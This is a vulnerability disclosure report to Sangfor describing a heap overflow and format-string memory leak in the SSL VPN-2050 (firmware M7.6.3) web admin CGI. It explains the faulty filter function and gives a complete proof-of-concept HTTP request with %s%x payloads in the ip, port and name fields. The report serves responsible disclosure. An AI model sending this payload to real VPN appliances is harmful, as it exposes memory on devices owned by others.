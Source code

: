 Hi,

I am eack from Codesafe Team of Legendsec at Qi'anxin Group.

Recently, I found that the Sangfor SSL VPN-2050 has a Heap overflow vulnerability. An attacker can leak heap memory by formatting a string. The tested device firmware version is M7.6.3. The vulnerability details are as follows:

This vulnerability is due to a logic vulnerability in the filter function, resulting in overflow of the ip and port parameters.

The vulnerability exists in gcs_webui.cgi, which corresponds to the IP address and port options under "System Maintenance - Proxy Settings" on the administration page.

Vulnerability code: 
![1.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622195475389.png)
Guess the developer wants to filter the ip and port parameters by the str_filter function. In the first if judgment, the str_filter function needs to return 0 to continue the following processing of the port parameter. The implementation of the str_filter function is as follows:
![2.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622267799970.png)
In this while loop, v2 does not play any role, the range of filtering characters is also problematic, resulting in as long as the number and '/' will fall into the while loop, always write data to a1, but if it is other characters For example, if the letter, '%', etc., it will return 0, but this just meets the judgment of if, and can continue the processing. This logic, just enough to constantly cover the address on the heap, leaks the data on the heap through formatted strings such as %s and %x.

The payload of the vulnerability recurrence is as follows:
On the 4430 port, the heap memory address is leaked through the ip parameter, port parameter, and name parameter:

GET /cgi-bin/gcs_webui.cgi?requestarg=2&requestname=17&csrf=f6a360046920f0382bf361f4688eabb4&enabled=1&ip=10.10.10.100000000000000000000000000%s%x&port=1111111%s%x&auth=1&name=aaaaaaa%s%x&passwd=111 HTTP/1.1
Host: 10.92.2.17:4430
Connection: close
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Referer: https://10.92.2.17:4430/html/gcs_proxyset.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zh_CN; TWFID=1a000798af849707; g_LoginPage=login_psw; VisitTimes=0; haveLogin=0; VpnLine=http%3A%2F%2F10.92.2.17%2F; sinfor_session_id=WA16F9E951F925B56F78666EFBF6DB22; PHPSESSID=e116e0e2c17bed877d1f825a77e6babf; usermrgstate=%7B%22params%22%3A%7B%22grpid%22%3A%22-100%22%2C%22recflag%22%3A0%2C%22filter%22%3A0%7D%2C%22pageparams%22%3A%7B%22start%22%3A0%2C%22limit%22%3A25%7D%2C%22otherparams%22%3A%7B%22searchtype%22%3A0%2C%22recflag%22%3Afalse%7D%7D; hidecfg=%7B%22name%22%3Afalse%2C%22flag%22%3Afalse%2C%22note%22%3Afalse%2C%22expire%22%3Atrue%2C%22lastlogin_time%22%3Atrue%2C%22phone%22%3Atrue%2C%22allocateip%22%3Atrue%2C%22other%22%3Afalse%2C%22state%22%3Afalse%7D; x-anti-csrf-gcs=0FB447BC0046963D

You can see the heap leak clearly on the web management interface:

![1.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561624566926470.png)

This vulnerability can be fixed by modifying the logic of the filter function.

Best wishes
